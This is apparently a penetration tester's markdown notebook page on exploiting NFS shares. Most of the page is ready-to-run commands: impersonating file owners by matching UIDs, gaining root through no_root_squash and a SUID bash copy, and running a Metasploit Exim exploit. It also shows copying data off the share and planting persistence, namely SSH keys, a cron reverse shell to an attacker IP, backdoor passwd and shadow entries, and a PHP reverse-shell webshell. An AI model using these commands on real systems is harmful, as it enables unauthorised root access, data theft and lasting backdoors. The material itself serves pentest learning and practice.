 ```yaml
---
id: Exploitation
aliases:
  - Network File System
tags:
  - Networking/Services/NFS/Exploitation
links: "[[Services]]"
---
```


<!-- Exploitation {{{-->
# Exploitation

<!-- UID Manipulation {{{-->
## UID Manipulation

With
[UID Manipulation](https://hackviser.com/tactics/pentesting/services/nfs#uid-manipulation)
(or [Trusting UID and GID](https://book.hacktricks.wiki/en/network-services-pentesting/nfs-service-pentesting.html#trusting-uid-and-gid))
it is possible to impersonate an arbitrary user
(*or* `root` *(*`UID` *0)* *if* `no_root_squash` *is enabled*)
which the remote file system trusts

> [!example]-
>
> 1. Check file ownership on the share
>
> ```sh
> ls -lan /mnt/nfs
> ```
> > [!info]
> >
> > e.g., *file owned by* `UID 1000`
>
> 2. Create user with same UID
>
> ```sh
> useradd -u 1000 fakeuser
> ```
>
> 3. Switch to the new user
>
> ```sh
> su <fakeuser>
> ```
>
> 4. Mount share
>
>```sh
> >mount -t nfs <target>:/<share> /mnt/nfs
> >```
>
> 5. It is now possible to read/write files owned by `UID 1000`
>
> ```sh
> cat /mnt/nfs/<sensitive_file.txt>
> ```

<!-- Tip {{{-->
> [!tip]
>
> The tool [fuse_nfs](https://github.com/hvs-consulting/nfs-security-tooling)
> will send the needed `UID` and `GID` to access the file(s)
<!-- }}} -->

___

<!-- }}} -->

<!-- No Root Squashing {{{-->
## No Root Squashing

When root squashing (`no_root_squash`) is disabled, the `root` user
on the client maintains `root` privileges on the NFS share,
allowing privilege escalation

1. Check if `no_root_squash` is set

<!-- Example {{{-->
> [!example]-
>
> ```sh
> showmount -e <target>
> ```
>
> > [!tip]
> >
> > Look for `no_root_squash` in output
<!-- }}} -->

2. Mount share

<!-- Example {{{-->
> [!example]-
>
> ```sh
> mount -t nfs <target>:/<share> /mnt/nfs
> ```
<!-- }}} -->

3. Create file as `root`

<!-- Example {{{-->
> [!example]-
>
> ```sh
> echo "test" > /mnt/nfs/root_file.txt
> ```
<!-- }}} -->

4. Check file permissions

<!-- Example {{{-->
> [!example]-
>
> ```sh
> ls -la /mnt/nfs/root_file.txt
> ```
> ```sh
> -rw-r--r-- 1 root root
> ```
<!-- }}} -->

5. Create [[Permissions#SUID & SGID|SUID]] shell

<!-- Example {{{-->
> [!example]-
>
> ```
> cp /bin/bash /mnt/nfs/rootbash
> ```
> ```sh
> chmod +s /mnt/nfs/rootbash
> ```
<!-- }}} -->

6. Execute on the target system

<!-- Example {{{-->
> [!example]-
>
> ```sh
> ./rootbash -p
> ```
<!-- }}} -->

___

<!-- }}} -->

<!-- NSFShell {{{-->
## NSFShell

List, mount and change `UID` and `GID` to have access to files with
[nfsshell](https://github.com/Supermathie/nfsshell)

___

<!-- }}} -->

<!-- CVE Exploits {{{-->
## CVE Exploits

<!-- CVE-2010-4344 {{{-->
### CVE-2010-4344

Exim4 string_format Function Heap Buffer Overflow
([exim4_string_format](https://www.rapid7.com/db/modules/exploit/unix/smtp/exim4_string_format/))

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Launch Metasploit|Launch Metasploit]]
>
> 2. [[Metasploit#Select Exploit|Select Exploit]]
>
> ```sh
> use exploit/unix/smtp/exim4_string_format
> ```
>
> 3. Show possible targets
>
> ```sh
> show targets
> ```
>
> 4. Set target
>
> ```sh
> set TARGET <target_id>
> ```
>
> 5. [[Metasploit#Show Options|Show Options]]
>
> ```sh
> show options
> ```
>
> 6. [[Metasploit#Set Options|Set Options]]
>
> 7. [[Metasploit#Check Exploit|Check Exploit]]
>
> 8. [[Metasploit#Run Exploit|Run Exploit]]
<!-- }}} -->

<!-- }}} -->

___

<!-- }}} -->

<!-- }}} -->

<!-- Post-Exploitation {{{-->
# Post-Exploitation

<!-- NFS Operations {{{-->
## NFS Operations

Copy entire share

<!-- Example {{{-->
> [!example]-
>
>```sh
>rsync -av /mnt/nfs/ /tmp/exfiltrated_data/
>```
<!-- }}} -->

Compress and download (*from target to attacker machine*)

<!-- Example {{{-->
> [!example]-
>
> ```sh
> tar czf nfs_data.tar.gz /mnt/nfs
> ```
<!-- }}} -->

Find sensitive files

<!-- Example {{{-->
> [!example]-
>
> ```sh
> find /mnt/nfs -name "*.key" -o -name "*.pem" -o -name "*password*"
> ```
<!-- }}} -->

<!-- }}} -->

<!-- Persistence {{{-->
## Persistence

[Writable Share Exploitation](https://hackviser.com/tactics/pentesting/services/nfs#writable-share-exploitation)
allows to upload backdoors, modify system files, or inject malicious code

Upload SSH key

<!-- Example {{{-->
> [!example]-
>
> ```sh
> mkdir -p /mnt/nfs/root/.ssh
> ```
> ```sh
> cp id_rsa.pub /mnt/nfs/root/.ssh/authorized_keys
> ```
> ```sh
> chmod 600 /mnt/nfs/root/.ssh/authorized_keys
> ```
<!-- }}} -->

Upload [[Privesc/Scheduled Tasks|cron job]]

<!-- Example {{{-->
> [!example]-
>
>```sh
>echo "* * * * * root bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1" > /mnt/nfs/etc/cron.d/backdoor
>```
<!-- }}} -->

Upload `/etc/passwd` backdoor

<!-- Example {{{-->
> [!example]-
>
> ```sh
> echo "hacker:\$6\$salt\$hash" >> /mnt/nfs/etc/shadow
> echo "backdoor::0:0:root:/root:/bin/bash" >> /mnt/nfs/etc/passwd
> ```
<!-- }}} -->

<!-- Reverse Shell Over Website {{{-->
### Reverse Shell Over Website

Upload PHP webshell (*if the macnine is web accessible*)

<!-- Example {{{-->
> [!example]-
>
> 1. Download the payload
>
> ```sh
> wget <url> -O <outfile>
> ```
>
> > [!example]-
> >
> > ```sh
> > wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
> > ```
>
> 2. Edit and check the script variables
>
> > [!example]-
> >
> > ```php
> > $ip = '<attacker_ip>';
> > $port = 1234;
> > ```
>
> 3. Upload the payload to the target machine
>
> ```sh
> put <file>
> ```
>
> ```sh
> cp shell.php /mnt/nfs/var/www/html/shell.php
> ```
>
> > [!example]-
> >
> > ```sh
> > ftp> put shell.php
> > ```
>
> 4. Open a [[netcat#Revers Shell|Netcat listener]]
>
> ```sh
> nc -lvnp <port>
> ```
>
> > [!example]-
> >
> > ```sh
> > nc -lvnp <port>
> > ```
>
> 5. Navigate to the web address to trigger the reverse connection
>
> ```sh
> http://target.com/path/to/ftp/shell.php
> ```
<!-- }}} -->

<!-- }}} -->

<!-- }}} -->

___

<!-- }}} -->
